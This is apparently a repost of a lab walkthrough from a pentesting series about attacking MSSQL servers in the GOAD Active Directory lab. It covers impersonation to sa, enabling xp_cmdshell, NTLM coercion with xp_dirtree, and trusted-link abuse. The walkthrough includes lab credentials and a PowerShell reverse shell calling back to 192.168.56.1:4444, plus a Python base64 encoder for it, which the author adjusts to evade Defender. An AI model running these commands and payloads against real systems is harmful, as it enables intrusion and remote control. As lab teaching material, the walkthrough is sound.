

> [!NOTE]
> Original post can be found here:
> https://mayfly277.github.io/posts/GOADv2-pwning-part7/


In the previous post we tried some attacks with ADCS activated on the domain. Now let’s take a step back, and go back on the castelblack.north.sevenkingdoms.local to take a look at the MSSQL server.

Before jump into this chapter, i have done some small configuration on the lab, to be sure you get it, you should pull the updates and play : `ansible-playbook servers.yml` to get the last mssql configuration.

- This modifications are:
    - arya.stark execute as user dbo impersonate privilege on msdb
    - brandon.stark impersonate on jon.snow

## Enumerate the MSSQL servers

### Impacket GetUserSPNs.py

- First let’s try to figure out the users with an SPN on an MSSQL server
```
impacket-GetUserSPNs north.sevenkingdoms.local/brandon.stark:iseedeadpeople
```


- And on essos domain

```
impacket-GetUserSPNs -target-domain essos.local north.sevenkingdoms.local/brandon.stark:iseedeadpeople
```


### Nmap

```
nmap -p 1433 -sV -sC 192.168.56.10-23
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-03 22:35 CEST
Nmap scan report for sevenkingdoms.local (192.168.56.10)
Host is up (0.00081s latency).

PORT     STATE  SERVICE  VERSION
1433/tcp closed ms-sql-s
MAC Address: 08:00:27:6C:BD:EB (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap scan report for winterfell.north.sevenkingdoms.local (192.168.56.11)
Host is up (0.00050s latency).

PORT     STATE  SERVICE  VERSION
1433/tcp closed ms-sql-s
MAC Address: 08:00:27:B7:87:0A (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap scan report for essos.local (192.168.56.12)
Host is up (0.00047s latency).

PORT     STATE  SERVICE  VERSION
1433/tcp closed ms-sql-s
MAC Address: 08:00:27:C2:67:CE (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap scan report for castelblack.north.sevenkingdoms.local (192.168.56.22)
Host is up (0.00076s latency).

PORT     STATE SERVICE  VERSION
1433/tcp open  ms-sql-s Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-ntlm-info: 
|   192.168.56.22:1433: 
|     Target_Name: NORTH
|     NetBIOS_Domain_Name: NORTH
|     NetBIOS_Computer_Name: CASTELBLACK
|     DNS_Domain_Name: north.sevenkingdoms.local
|     DNS_Computer_Name: castelblack.north.sevenkingdoms.local
|     DNS_Tree_Name: sevenkingdoms.local
|_    Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-08-03T20:24:51
|_Not valid after:  2055-08-03T20:24:51
| ms-sql-info: 
|   192.168.56.22:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
|_ssl-date: 2025-08-03T20:35:58+00:00; +1s from scanner time.
MAC Address: 08:00:27:24:6F:0A (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap scan report for braavos.essos.local (192.168.56.23)
Host is up (0.00080s latency).

PORT     STATE SERVICE  VERSION
1433/tcp open  ms-sql-s Microsoft SQL Server 2019 15.00.2000.00; RTM
|_ssl-date: 2025-08-03T20:35:58+00:00; +1s from scanner time.
| ms-sql-info: 
|   192.168.56.23:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ms-sql-ntlm-info: 
|   192.168.56.23:1433: 
|     Target_Name: ESSOS
|     NetBIOS_Domain_Name: ESSOS
|     NetBIOS_Computer_Name: BRAAVOS
|     DNS_Domain_Name: essos.local
|     DNS_Computer_Name: braavos.essos.local
|     DNS_Tree_Name: essos.local
|_    Product_Version: 10.0.14393
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-08-03T20:25:22
|_Not valid after:  2055-08-03T20:25:22
MAC Address: 08:00:27:B7:45:6B (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Post-scan script results:
| clock-skew: 
|   0s: 
|     192.168.56.22 (castelblack.north.sevenkingdoms.local)
|_    192.168.56.23 (braavos.essos.local)
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 14 IP addresses (5 hosts up) scanned in 7.81 seconds

```

Two servers answer :

- castelblack.north.sevenkingdoms.local

- braavos.essos.local : the result is identical as castelblack.

### NXC

- Let’s try with nxc
```
nxc mssql 192.168.56.22-23
```


- Now we could try with the user samwell.tarly
```
nxc mssql 192.168.56.22 -u samwell.tarly -p Heartsbane -d north.sevenkingdoms.local
```


- As we can see we got an access to the database

### Impacket
>[!NOTE] 
>new command

```
impacket-mssqlclient -windows-auth north.sevenkingdoms.local/samwell.tarly:Heartsbane@castelblack.north.sevenkingdoms.local
```


>[!NOTE] 
>old command, which is not needed any longer

- To enumerate and use impacket mssql, i made a modified version of the example mssqlclient.py.
- You can find the version [here](https://github.com/SecureAuthCorp/impacket/pull/1397)
    
- The install is just like what we done in part5 merge the PR on your local impacket project and relaunch install:

```
cd /opt/tools
git clone https://github.com/SecureAuthCorp/impacket myimpacket
cd myimpacket
python3 -m virtualenv myimpacket
source myimpacket/bin/activate
git fetch origin pull/1397/head:1397
git merge 1397
python3 -m pip install .
```

- We connect to the mssql server with the following command :
```
python3 mssqlclient.py -windows-auth north.sevenkingdoms.local/samwell.tarly:Heartsbane@castelblack.north.sevenkingdoms.local
```


- And type help:
```
lcd {path} - changes the current local directory to {path}
exit       - terminates the server process (and this session)
enable_xp_cmdshell  - you know what it means
disable_xp_cmdshell     - you know what it means  
enum_db                 - enum databases
enum_links                 - enum linked servers
enum_impersonate           - check logins that can be impersonate
enum_logins                - enum login users
enum_users                 - enum current db users
enum_owner                 - enum db owner   
exec_as_user {user}        - impersonate with execute as user   exec_as_login {login}      - impersonate with execute as login   xp_cmdshell {cmd}          - executes cmd using xp_cmdshell   xp_dirtree {path}          - executes xp_dirtree on the path   sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
use_link {link}            - linked server to use (set use_link localhost to go back to local or use_link .. to get back one step)   
! {cmd}                    - executes a local shell cmd   show_query                 - show query
mask_query                 - mask query
```

    
- I added some new entries to the database : enum_db/enum_links/enum_impersonate/enum_login/enum_owner/exec_as_user/exec_as_login/use_link/show_query/mask_query

----

- Let’s start the enumeration :
```
enum_logins
```


- This launch the following query (roles value meaning can be show [here](https://docs.microsoft.com/en-us/sql/relational-databases/system-catalog-views/sys-server-principals-transact-sql?view=sql-server-ver16))
```sql
select r.name,r.type_desc,r.is_disabled, sl.sysadmin, sl.securityadmin, sl.serveradmin, sl.setupadmin, sl.processadmin, sl.diskadmin, sl.dbcreator, sl.bulkadmin from  master.sys.server_principals r <br>left join master.sys.syslogins sl on sl.sid = r.sid where r.type in ('S','E','X','U','G')
```


- We see only a basic view as we are a simple user 

### impersonate - execute as login

- Let’s enumerate impersonation values:
```
enum_impersonate
```


- This launch the following queries:
```sql
SELECT 'LOGIN' as 'execute as','' AS 'database', pe.permission_name, pe.state_desc,pr.name AS 'grantee', pr2.name AS 'grantor' FROM sys.server_permissions pe JOIN sys.server_principals pr ON pe.grantee_principal_id = pr.principal_Id JOIN sys.server_principals pr2 ON pe.grantor_principal_id = pr2.principal_Id WHERE pe.type = 'IM'
```


- The previous command list all login with impersonation permission

- This launch also the following command on each databases :
```sql
use <db>;
SELECT 'USER' as 'execute as', DB_NAME() AS 'database',pe.permission_name,pe.state_desc, pr.name AS 'grantee', pr2.name AS 'grantor' FROM sys.database_permissions pe JOIN sys.database_principals pr ON pe.grantee_principal_id = pr.principal_Id JOIN sys.database_principals pr2 ON pe.grantor_principal_id = pr2.principal_Id WHERE pe.type = 'IM'
```

- The previous command list all users with impersonation permission

> What is the hell ? login and user, what is the difference ?
> 
> - A “Login” grants the principal entry into the **SERVER**
> - A “User” grants a login entry into a single **DATABASE**

- I found out an image who explain it well and a very nice summary [here](https://blog.sqlauthority.com/2019/05/21/sql-server-difference-between-login-vs-user-security-concepts/)
_“SQL Login is for Authentication and SQL Server User is for Authorization. Authentication can decide if we have permissions to access the server or not and Authorization decides what are different operations we can do in a database. Login is created at the SQL Server instance level and User is created at the SQL Server database level. We can have multiple users from a different database connected to a single login to a server.”_

- Ok let see the result :
- Ok samwell got login impersonation to the user sa.
- So we can impersonate sa with `execute as login` and execute commands with xp_cmdshell
```
exec_as_login sa
enable_xp_cmdshell
xp_cmdshell whoami
```


- This launch the following commands:
```
execute as login='sa';
exec master.dbo.sp_configure 'show advanced options',1;RECONFIGURE;exec master.dbo.sp_configure 'xp_cmdshell', 1;RECONFIGURE;
exec master..xp_cmdshell 'whoami'
```

- And we get a command execution!

- Let’s continue our enumeration as login **sa** this time:
```
enum_logins
```


- As we can see with sa login we see a lot more things. And we can see that jon.snow is sysadmin on the mssql server
    
- Let’s see if there is others impersonation privileges:
```
enum_impersonate
```    


- As sysadmin user (sa), we can see all the information in the database and so the others users with impersonation privileges.
- Another way to get in could be to access as brandon.stark and do `execute as login` on user jon.snow.

### impersonate - execute as user

- We launch a connection to the db as arya.stark :
```
impacket-mssqlclient -windows-auth north.sevenkingdoms.local/arya.stark:Needle@castelblack.north.sevenkingdoms.local
```

- if we use master db and impersonate user dbo we can’t get a shell
```
use master
execute as user = "dbo"
exec master..xp_cmdshell 'whoami'
```

```
exec_as_user dbo
xp_cmdshell whoami
```


- but our user also got impersonate user privilege on dbo user on database msdb


- The difference between the two databases is that msdb got the trustworthy property set (default value on msdb).

- With the trustworthy property we get a shell :


### Coerce and relay

- Mssql can also be use to coerce an NTLM authentication from the mssql server. The incoming connection will be from the user who run the mssql server.
- In our case if we tale any user like hodor for example we can get an NTLM authentication
- start responder `responder -I vboxnet0`
    
- Connect with hodor (0 privilèges)
```
impacket-mssqlclient -windows-auth north.sevenkingdoms.local/hodor:hodor@castelblack.north.sevenkingdoms.local
```

- run a xp_dirtree command :
```
xp_dirtree \\192.168.56.118\demontlm
```

- And we get a connection back to our responder


- This will work also with ntlmrelayx (like with a server running as administrator and with the same password on other servers). But on the lab, this kind of behavior is not setup by now.

### trusted links

- Another SQL abuse we could try on the lab, is the usage of mssql trusted links.

> Note that trusted link is also a forest to forest technique

- To abuse the links let’s connect with jon.snow and use enum_links
```
impacket-mssqlclient -windows-auth north.sevenkingdoms.local/jon.snow:iknownothing@castelblack.north.sevenkingdoms.local -show

SQL (NORTH\jon.snow  dbo@master)> enum_links
```


- This play the following queries :
```
EXEC sp_linkedservers
EXEC sp_helplinkedsrvlogin
```

- As we can see a linked server exist with the name BRAAVOS and a mapping exist with the user jon.snow and sa on braavos.
    
- If we use the link we can get a command injection on braavos:
    
```
use_link BRAAVOS
enable_xp_cmdshell
xp_cmdshell whoami
```
`

- This play the following MSSQL commands :

```sql
EXEC ('select system_user as "username"') AT BRAAVOS<br>EXEC ('exec master.dbo.sp_configure ''show advanced options'',1;RECONFIGURE;exec master.dbo.sp_configure ''xp_cmdshell'', 1;RECONFIGURE;') AT BRAAVOS<br>EXEC ('exec master..xp_cmdshell ''whoami''') AT BRAAVOS
```

- We got a command injection on braavos.essos.local as essos\sql_svc
    
- I have done the modifications on mssqlclient.py to be able to chain trusted_links. From this we can continue to another trusted link, etc…
    
- Example :


## Command execution to shell

- We got command execution on castelblack and also on braavos. But now we want a shell to interact with the server.
- To get a shell we can use a basic Powershell webshell (There is one available on the [arsenal](https://github.com/Orange-Cyberdefense/arsenal) commands cheat sheet project. This is another of my projects that i will need to improve when i get the time, but this script do not bypass defender anymore, so let’s write some modifications):
```
$c = New-Object System.Net.Sockets.TCPClient('192.168.56.1',4444);<br>$s = $c.GetStream();[byte[]]$b = 0..65535\|%{0};<br>while(($i = $s.Read($b, 0, $b.Length)) -ne 0){<br>    $d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);<br>    $sb = (iex $d 2>&1 \| Out-String );<br>    $sb = ([text.encoding]::ASCII).GetBytes($sb + 'ps> ');<br>    $s.Write($sb,0,$sb.Length);<br>    $s.Flush()<br>};<br>$c.Close()
```


- Let’s convert this powershell command to base64 in utf-16 for powershell
```python
#!/usr/bin/env python
import base64 
import sys

if len(sys.argv) < 3:
	print('usage : %s ip port' % sys.argv[0])
	sys.exit(0)
	
payload="""
$c = New-Object System.Net.Sockets.TCPClient('%s',%s);
$s = $c.GetStream();[byte[]]$b = 0..65535\|%%{0};<br>while(($i = $s.Read($b, 0, $b.Length)) -ne 0){<br>    $d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);<br>    $sb = (iex $d 2>&1 \| Out-String );<br>    $sb = ([text.encoding]::ASCII).GetBytes($sb + 'ps> ');<br>    $s.Write($sb,0,$sb.Length);<br>    $s.Flush()<br>};<br>$c.Close()<br>""" % (sys.argv[1], sys.argv[2])<br><br>byte = payload.encode('utf-16-le')<br>b64 = base64.b64encode(byte)<br>print("powershell -exec bypass -enc %s" % b64.decode())
```


- run it and get a shell


## Other tools to use

- There is some interresting projects to exploit mssql, here is some of them :
    - [https://github.com/NetSPI/ESC](https://github.com/NetSPI/ESC)
    - [https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet)
    - [https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/MSSQL/Program.cs](https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/MSSQL/Program.cs)
- Interresting informations :
    - [https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server)
    - [https://ppn.snovvcrash.rocks/pentest/infrastructure/dbms/mssql](https://ppn.snovvcrash.rocks/pentest/infrastructure/dbms/mssql)
    - [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md)
    - [https://h4ms1k.github.io/Red_Team_MSSQL_Server/#](https://h4ms1k.github.io/Red_Team_MSSQL_Server/#)
    - [https://github.com/Jean-Francois-C/Database-Security-Audit/blob/master/MSSQL%20database%20penetration%20testing](https://github.com/Jean-Francois-C/Database-Security-Audit/blob/master/MSSQL%20database%20penetration%20testing)

Next time we will have fun with IIS and we will get a nt authority\system shell on servers.